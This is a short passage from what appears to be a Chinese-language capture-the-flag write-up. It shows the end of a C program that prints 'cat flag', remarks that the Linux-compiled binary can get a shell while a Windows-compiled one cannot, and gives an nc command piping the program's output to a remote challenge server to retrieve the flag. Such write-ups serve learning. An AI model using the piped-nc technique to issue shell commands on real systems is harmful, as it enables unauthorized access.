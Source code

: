 ```c
    puts("cat flag");
    return 0;
}
```
值得注意的是`Windows`和`Linux`下gcc编译出的文件有区别，本题在`Linux`下编译的文件可以getshell，但`Windows`下编译出的就不行 
编译得到`a.out`文件,运行`./a.out | nc 27.25.151.12 28633`  得到flag   
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241110221002.png)  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241110220922.png)  



